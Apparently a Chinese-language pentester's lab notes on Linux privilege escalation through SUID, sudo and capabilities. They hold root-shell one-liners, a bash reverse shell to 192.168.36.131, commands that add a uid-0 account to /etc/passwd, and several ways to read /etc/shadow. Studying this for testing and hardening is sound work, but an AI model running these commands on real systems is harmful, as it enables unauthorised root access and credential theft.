# Linux提权汇总

<div style="text-align: right;">

date: "2023-09-03"

</div>


## 参考文章：

1. [GTFOBins](https://gtfobins.github.io/)
2. [浅谈linux suid提权 - 先知社区](https://xz.aliyun.com/t/12535)
3. [Linux通过第三方应用提权实战总结 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/261271.html)
4. [sudo提权-阿里云开发者社区](https://developer.aliyun.com/article/654362)
5. [利用Capabilities实现Linux系统权限提升](https://www.secrss.com/articles/28488)
6. [capabilities(7) - Linux manual page](https://man7.org/linux/man-pages/man7/capabilities.7.html)

---

## SUID提权

#### 什么是suid？

suid（set uid）是Linux中的一种特殊权限，suid可以让调用者以文件拥有者的身份运行该文件，所以利用suid提权的核心就是运行root用户所拥有的suid文件，那么运行该文件的时候就获得root用户的身份了。
suid特点是用户运行某个程序时，如果该程序有suid权限，程序运行进程的属主不是发起者，而是程序文件所属的属主。
Linux引入了3个文件来管理用户组：

1. `/etc/passwd`：存放用户信息
2. `/etc/shadow`：存放用户密码信息
3. `/etc/group`：存放组信息

在文件系统中的每个文件的文件头里面添加了用户和文件之间的关系信息。



用户信息`/etc/passwd`每行共有7个字段冒号隔开，从前往后依次为：

1. 用户名
2. 用户密码
3. UID，每个用户的UID都不同
4. 组UID，每个组的组UID都不同
5. 解释说明字段
6. 用户的根目录
7. 登录shell，`/sbin/nologin`表示不可登录

#### 如何利用

在执行过程中，调用者会暂时获得该文件的所有者权限，且该权限只在程序执行的过程中有效。
只有root用户的uid是0，如果把一个普通用户的uid修改为0，那么只要以普通用户的用户名和密码登录系统就会自动切换到root用户，在系统加固时一定要找出有哪些用户的uid为0。
假设可执行文件binexec其属主为root，当以非root身份登录时，如binexec设置了suid权限，就可以在非root身份下运行该可执行文件，可执行文件运行时该进程的权限为root权限。
利用此特性，就可通过suid进行提权。

#### 如何设置suid

```bash
# 添加suid
chmod u+s filename

# 去除suid
chomd u-s filename 
```

#### 如何查找suid

任选其一使用即可

```bash
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

#### suid提权前置准备

添加一个普通用户t1st，将密码设置为t1st123

```bash
adduser t1st
passwd t1st
```

使用root用户，将find添加suid权限

```bash
chmod u+s /bin/find
```

回到t1st用户，查询哪些文件具有suid权限可利用



#### Find命令提权

Find命令主要用于在指定目录下查找文件和目录。

```bash
find /usr/bin/su -exec whoami \;
find /usr/bin/su -exec /bin/sh -p \; -quit
```



还有一种类似的提权方法

```bash
touch 1.txt
find 1.txt -exec whoami \;
```


若使用root会话来进行反弹一个新的shell呢。

```bash
find /usr/bin -name su -exec bash -c "bash -i >& /dev/tcp/192.168.36.131/2333 0>&1" \;
```

使用FInd来进行反弹一个新的shell，却是t1st的权限，而不是root权限。



若使用MSF的马子，则可以正常接收root权限的会话，但是个人感觉多此一举，这里只是做测试。



下面将Suid取消后，再次尝试，已经无法进行提权了。



#### Nmap命令提权
为了复现从官网下载了Nmap5.20的版本，存在漏洞的版本在于2.02-5.21之间，这是一个比较老的提权了，目前个人下载的5.20是2017年11月份的版本，据本实验已经接近6年。



首先将nmap设置suid

```bash
[root@localhost bin]# find / -type d -name "nmap" 2>/dev/null
/usr/local/share/nmap
[root@localhost bin]# chmod u+s /usr/local/share/nmap
[root@localhost bin]# find / -user root -perm -4000 -print 2>/dev/null
/root/vmware-tools-distrib/lib/bin32/vmware-user-suid-wrapper
/root/vmware-tools-distrib/lib/bin64/vmware-user-suid-wrapper
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/crontab
/usr/bin/passwd
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
/usr/local/share/nmap
```

尝试提权，进入交互模式

```bash
[t1st@localhost ~]$ nmap --interactive

Starting Nmap V. 5.20 ( http://nmap.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-4.2$ whoami
t1st
```

提权失败，可能是由于系统版本超出了受影响的范围吧。这个错误配置估计实战中很少见了。
也可以利用nmap执行shell命令，但是不能造成提权，编辑一个nse脚本文件：1.nse，内容如下：

```bash
os.execute('/bin/sh')
```

执行

```bash
nmap --script=1.nse
```



还是普通用户的shell，也仅仅只能实现nmap在高版本的交互式shell。

#### Less命令提权

less和more类似，可以随意浏览文件，支持翻页和搜索，支持向上翻页和向下翻页，最好找一个长一点的文件进行读取，不然可能会失败。

当less命令被配置suid时，cat命令查询不到`/etc/shadow`，less却可以



尝试提权

```bash
less /etc/shadow
!/bin/sh
```





提权失败


#### More命令提权

和Less同理，也需要找一篇长一点的文件。

```bash
more /etc/aliases.db
!/bin/sh
```



同提权失败，暂不明白是由于什么原因导致的

#### Nano命令提权

nano是一款基于字符终端的文本编辑工具，貌似比较古老了。

```bash
nano
ctrl + R
ctrl + X
whoami
```

有怪东西。在Centos7，nano2.3.1下，提权失败了。



在kali下nano版本7.2提权成功。



在Centos7安装Nano7.2

```bash
wget https://www.nano-editor.org/dist/v7/nano-7.2.tar.gz
tar -xzvf nano-7.2.tar.gz
cd nano-7.2
./configure
sudo make
sudo make install
```





还是提权失败，那就真不清楚什么原因了。

#### CP命令提权

该命令主要用于复制文件或目录

该提权原理主要是覆盖/etc/passwd从而进行提权的。

```bash
[t1st@localhost test]$ cat /etc/passwd > passwd
[t1st@localhost test]$ openssl passwd -1 -salt t1sts t1sts123
$1$t1sts$K3ne8vtigFl4XxOZc9E8L.
[t1st@localhost test]$ echo 't1sts:$1$t1sts$K3ne8vtigFl4XxOZc9E8L.:0:0::/root/:/bin/bash' >> passwd
[t1st@localhost test]$ cp passwd /etc/passwd
[t1st@localhost test]$ su - t1sts
```





同理给awk、sed这类具有写文件权限的命令以suid权限，都可以进行提权。

#### MV命令提权

该命令主要是用于为文件或目录改名、或将文件或目录移入其它位置，由于和之前差不多，我就直接使用命令了。
这里已经将passwd还原回去了，cp命令造成的t1sts用户已被删除。

```bash
[t1st@localhost test]$ cat /etc/passwd > passwd
[t1st@localhost test]$ openssl passwd -1 -salt t1sts t1sts123
$1$t1sts$K3ne8vtigFl4XxOZc9E8L.
[t1st@localhost test]$ echo 't1sts:$1$t1sts$K3ne8vtigFl4XxOZc9E8L.:0:0::/root/:/bin/bash' >> passwd
[t1st@localhost test]$ mv passwd /etc/passwd
[t1st@localhost test]$ su - t1sts
```



#### Vi/Vim命令提权

对于Vi和Vim的理解，在我Centos7设置的用户中，没有suid权限的vi和vim也可以修改`/etc/passwd`文件，那么可以使用cp和mv的方式进行提权，此处没有进行测试。

在Kali中需要设置SUID权限之后，才可以进行修改，那么也可以使用cp和mv的方式进行提权即可。

#### Bash命令提权

命令解释器

```bash
bash -p
```



#### Awk命令提权

AWK 是一种处理文本文件的语言，是一个强大的文本分析工具。

```bash
awk 'BEGIN {system("/bin/sh")}'
```

提权失败



awk不应该这么使用，应该利用suid权限添加一个新的管理员，然后登录即可

```bash
awk -v new_entry="t1sts:\$1\$t1sts\$K3ne8vtigFl4XxOZc9E8L.:0:0::/root/:/bin/bash" -F: -v OFS=: 'BEGIN { getline; print; print new_entry } { print }' /etc/passwd
```



也可以利用它来进行读取敏感文件

```bash
awk -F: '{print "Username: " $1 ", Password Hash: " $2}' /etc/shadow
```



#### Sed命令提权

Linux sed 命令是利用脚本来处理文本文件。

读取一行

```bash
sed -n '1p' /etc/shadow
```



读取全部

```bash
sed -n 'p' /etc/shadow
```



向/etc/passwd写入文件

```bash
sed -i '$s/$/\nt1sts:\$1\$t1sts\$K3ne8vtigFl4XxOZc9E8L.:0:0::\/root:\/bin\/bash/' /etc/passwd
```



同awk，写入`/etc/passwd`，然后登录提权即可。


## Sudo提权

#### 什么是Sudo提权？

Sudo就是临时授权的意思，可以临时让其以root 权限运行某个程序。在`/etc/sudoers`中设置了可执行sudo指令的用户。前提得知道该账号的密码。

#### 配置Sudo权限

```bash
vim /etc/sudoers

t1st    ALL=(ALL:ALL)   ALL
```

我们使用root用户将t1st用户添加进去。


#### 进行Sudo提权

#### Su命令提权

```bash
sudo su - root
```


#### Zip命令提权

随便在`/tmp`目录下上传一个1.zip即可。自定义解压命令是以root权限执行的，指定为sh -c /bin/bash, 获取一个root权限的shell

```bash
sudo zip /tmp/1.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
```


#### Tar命令提权

`–checkpoint-action` 选项是提权点，可以自定义需要执行的动作，指定为`exec=/bin/bash`，获取一个root权限的shell

```bash
sudo tar cf /dev/null test --checkpoint=1 --checkpoint-action=exec=/bin/bash
```


#### strace命令提权

`#strace`以root权限运行跟踪调试`/bin/bash`, 从而获取root权限的shell

```bash
sudo strace -o/dev/null /bin/bash
```


#### more命令提权

```bash
sudo more /etc/rsyslog.conf
!/bin/bash
```


#### find命令提权

```bash
sudo find /bin/ -name ls -exec /bin/bash \;
```


#### awk命令提权

```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```


#### git命令提权

```bash
sudo git help status
!/bin/bash
```


#### ftp命令提权
```bash
sudo ftp
!/bin/bash
```


## Capabilities提权

#### 什么是Capabilities提权
"Capabilities提权"（也称为"Linux能力提权"或"Linux能力升级"）是指在Linux操作系统中，允许普通用户或进程获得一些系统权限或特权的一种机制。Linux的能力（capabilities）是一种细粒度的权限系统，允许系统管理员将一些特定的权限分配给普通用户或进程，而不需要赋予它们完整的超级用户（root）权限。

Capabilities提权的目的是减少系统中普通用户或进程所需的特权级别，以提高系统的安全性。通过细粒度的权限控制，系统管理员可以更精确地管理哪些权限可以被哪些用户或进程访问，而不必给予完整的root权限。
一些例子包括：

1. `CAP_NET_ADMIN`：允许进程配置网络设备。这使得普通用户或进程可以管理网络接口而不需要完整的root权限。
2. `CAP_DAC_OVERRIDE`：允许进程忽略文件的DAC（Discretionary Access Control）权限。这使得进程可以访问其他用户的文件，而不需要root权限。
3. `CAP_SYS_ADMIN`：允许进程执行各种系统管理任务，如挂载文件系统和设置系统时间。这使得普通用户可以执行某些系统管理任务。
4. `CAP_SYS_PTRACE`：允许进程使用ptrace来调试其他进程。这使得调试工具和性能分析工具可以在非特权用户下运行。

Capabilities提权是一种强大的安全特性，但也需要慎重使用。错误配置的capabilities可能导致安全漏洞，因此系统管理员需要谨慎管理和分配capabilities，确保系统的安全性和完整性。

#### Capabilities原理
Capabilities机制是在Linux内核2.2之后引入的，原理很简单，就是将之前与超级用户root（UID=0）关联的特权细分为不同的功能组，Capabilites作为线程（Linux并不真正区分进程和线程）的属性存在，每个功能组都可以独立启用和禁用。其本质上就是将内核调用分门别类，具有相似功能的内核调用被分到同一组中。
这样一来，权限检查的过程就变成了：在执行特权操作时，如果线程的有效身份不是root，就去检查其是否具有该特权操作所对应的capabilities，并以此为依据，决定是否可以执行特权操作。

#### 配置Capabilities-设置Capability

```bash
setcap cap_net_raw,cap_net_admin=eip /usr/bin/filename
```

#### 查看Capability

查看所有

```bash
getcap -r / 2>/dev/null
```

查看指定的程序

```bash
getcap /usr/bin/filename
```

#### 删除Capability

```bash
setcap -r /usr/bin/filename
```

#### 利用Capabilitu提权

#### gdb命令提权

```bash
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```



提权失败，不知道是不是由于版本的原因导致的。

#### perl命令提权

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```


提权失败

#### php命令提权

php5.4版本没有`posix_setuid()` 函数，需要php版本为7.x

```bash
php -r "posix_setuid(0); system('/bin/sh');"
```

#### python命令提权

```bash
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

#### ruby命令提权

```bash
ruby -e 'Process::Sys.setuid(0); exec "/bin/sh"'
```

#### rvim命令提权

```bash
rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

#### vim命令提权

```bash
vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```



提权失败

#### tar命令提权

`cap_dac_read_search`可以绕过文件的读权限检查以及目录的读/执行权限的检查，利用此特性我们可以读取系统中的敏感信息。

```bash
# 绕过权限检查即可成功创建压缩文件
tar cvf shadow.tar /etc/shadow

# 解压缩
tar -xvf shadow.tar

# 进入解压缩的目录
cd etc

# 赋予读权限
chmod +r shadow

# 查看shadow文件的内容
5. cat shadow | grep root
```

#### openssl命令提权

当openssl的capability被设置为空时，可以尝试读取敏感文件

```bash
# 使用openssl生成证书
cd /tmp
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

# 启动web服务器，监听1337端口
cd /
openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP

# 访问本机的web服务，读取/etc/shadow文件
curl -k "https://127.0.0.1:1337/etc/shadow"
```
